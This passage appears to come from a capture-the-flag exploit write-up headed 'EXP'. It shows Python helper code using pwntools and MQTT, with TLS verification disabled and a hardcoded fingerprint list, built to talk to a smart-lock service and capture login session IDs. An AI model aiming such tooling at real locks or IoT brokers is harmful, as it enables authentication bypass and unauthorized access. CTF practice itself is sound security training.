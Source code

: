 ## EXP

### 交互函数的设置

```
import paho.mqtt.client as mqtt
import json
import random
import string
import time
import ssl
from pwn import *
from threading import Event
correct_finger = [29,373307,1065735249,2909012772,1932386,2933,3462545,5692838,2601798933,3102258193,32207873,36167,1274411,31737324,3369724400,30220736,2479958049,5,3612650882,4088014656]
class SecureLockTester:
    def __init__(self,
                 host="localhost",
                 port=8883,
                 ca_certs="/etc/mosquitto/ca.crt",
                 insecure=True):
        self.host = host
        self.port = port
        self.ca_certs = ca_certs
        self.insecure = insecure

        self.client = mqtt.Client(protocol=mqtt.MQTTv311)
        self._configure_tls()

        self.client.on_connect = self.on_connect
        self.client.on_message = self.on_message

        self.auth_token = None
        self.session_id = None
        self.response_event = Event()
        self.last_response = None
        self.log_content = ""
        self.log_changed = False

    def _configure_tls(self):
        self.client.tls_set(
            ca_certs=self.ca_certs,
            cert_reqs=ssl.CERT_REQUIRED,
            tls_version=ssl.PROTOCOL_TLSv1_2
        )
        if self.insecure:
            self.client.tls_insecure_set(True)

    def on_connect(self, client, userdata, flags, rc):
        print(f"status code: {rc}")

    def on_message(self, client, userdata, msg):
        topic = msg.topic
        payload = msg.payload.decode()
        if topic == "logfile":
            self.log_content += payload
            if "EOF" in payload and 'similarity' in self.log_content:
                self.log_changed = True
            self.response_event.set()
        elif topic == "re_"+self.auth_token:
            if "login successed. session_id: " in payload:
                self.session_id = payload.split("session_id: ")[1].strip()
            self.response_event.set()
```